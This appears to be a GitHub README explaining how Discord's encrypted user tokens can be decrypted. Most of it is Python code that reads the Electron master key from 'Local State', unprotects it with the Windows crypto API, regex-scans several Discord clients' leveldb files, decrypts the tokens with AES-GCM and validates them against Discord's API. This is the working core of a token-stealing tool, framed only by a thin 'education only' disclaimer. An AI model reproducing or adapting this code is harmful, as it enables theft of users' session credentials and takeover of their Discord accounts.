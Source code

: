# Token-encryption-writeup
All the info's about token encryption in one repository
![enc](https://user-images.githubusercontent.com/104512346/188005029-78d67d63-307c-4fce-adba-7579685e7c62.png)

<br>
So, as we all know, Discord recently started encrypting User-tokens. I had them decrypted in under a day but kept it secret for a while. Now that I already shared it with friends, lets just share it with everyone

----
<br><br>
# How they do it:

Discord uses the so-called "safeStorage API" - an API provided by electron to interact with LocalStorage in a secure manner, including encryption. For more info on that, check out his <a href="https://www.electronjs.org/docs/latest/api/safe-storage">link</a>

Its really simple to get the Token with this:

- Find the key-file ("current_dir\\Local State")
- Grab the key
- Grab your encrypted Token using regex
- Use base64 & the aes-module to decrypt it. 

----
<br><br>

# How this looks like in code

- Import our modules and define our regex:
```py
import requests
import os
import json 
import base64
from re import findall
from Cryptodome.Cipher import AES # New import 1, AES
from win32crypt import CryptUnprotectData # New import 2, win32crypt

roaming = os.getenv("appdata") # Appdata
encrypted_regex = r"dQw4w9WgXcQ:[^\"]*" # encrypted token regex
```

- Write your key-functions:
```py
def decrypt_payload(cipher, payload): # decrypting our payload, in this case tokens
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv): # getting an AES Cipher
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(buff, master_key): # decrypting the password, or in this case token with our masterkey & buff
    try:
        iv = buff[3:15] # getting the IV
        payload = buff[15:] # the encrypted token
        cipher = generate_cipher(master_key, iv) # our cipher
        decrypted_pass = decrypt_payload(cipher, payload) # decryping that shit
        decrypted_pass = decrypted_pass[:-16].decode() # and splitting away stuff nobody asked for
        return decrypted_pass # boom
    except:
        return "ratio"

def get_token_key(path): # token encryption uses a key stored in a different folder, lets get it, shall we? :)
    with open(path, "r", encoding="utf-8") as f: # opening the key file
        local_state = f.read() # reading our file
    local_state = json.loads(local_state) # and thats our local_state value

    master_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"]) # now we want our key
    master_key = master_key[5:] # which we will eventually get after splitting off nonesense
    master_key = CryptUnprotectData(master_key, None, None, None, 0)[1] # and using win32crypt
    return master_key # boom, key
```

- Load the Discord Paths and grab the token:
```py
paths = {
'Discord': roaming + r'\\discord\\Local Storage\\leveldb\\',
'Discord Canary': roaming + r'\\discordcanary\\Local Storage\\leveldb\\',
'Lightcord': roaming + r'\\Lightcord\\Local Storage\\leveldb\\',
'Discord PTB': roaming + r'\\discordptb\\Local Storage\\leveldb\\'
}

for path in paths:
    for file_name in os.listdir(path): # if it is discord...
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'): # we get all leveldb files and log files
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]: # strip them
            for y in findall(encrypted_regex, line): # and find our encrypted regex
                for i in ["discordcanary", "discord", "discordptb"]: # we check all discord installs
                    try:
                        token = decrypt_password(base64.b64decode(y.split('dQw4w9WgXcQ:')[1]), get_token_key(roaming+ f'\\{i}\\Local State')) # to decrypt the shit
                    except:
                        pass
                    r = requests.get("https://discord.com/api/v9/users/@me", headers=getheaders(token)) # and then we just check if its valid
                    if r.status_code == 200:
                        if token in tokens:
                            continue
                        print(token)
```

Thats all there is to do, lol

----
<br><br>
# Legal Disclaimer:
<br>
Please keep in mind that this is not meant for illegal purposes! This is for education only. It exists to show how broken the Discord API & their Client is. I am not liable for anything you decide to do with this, and you agree to not use it for anything illegal.
